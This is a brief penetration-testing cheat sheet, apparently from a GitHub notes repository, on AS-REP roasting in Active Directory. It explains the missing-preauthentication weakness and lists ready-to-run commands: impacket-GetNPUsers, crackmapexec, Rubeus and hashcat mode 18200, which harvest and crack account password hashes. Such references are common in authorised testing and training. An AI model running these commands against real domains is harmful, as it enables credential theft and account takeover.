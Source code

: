 # AS-REP Roasting
Because UF_DONT_REQUIRE_PREAUTH is set for an account, it doesn't need to pre authenticate itself. Therefore every user can request an AS-REP session key encrypted with the targeted accounts key, and then crack it to obtain the password for that account.

Requirements:
* List with users without creds OR an user with creds

## Remote
Users without creds from file:
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` 

Any user with creds - get all non pre-auth accounts:
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>`

## Local
`Rubeus.exe asreproast /format:hashcat /nowrap`

## Hashcat
`hashcat -m 18200 <HASH> <PASSLIST> --potfile-disable`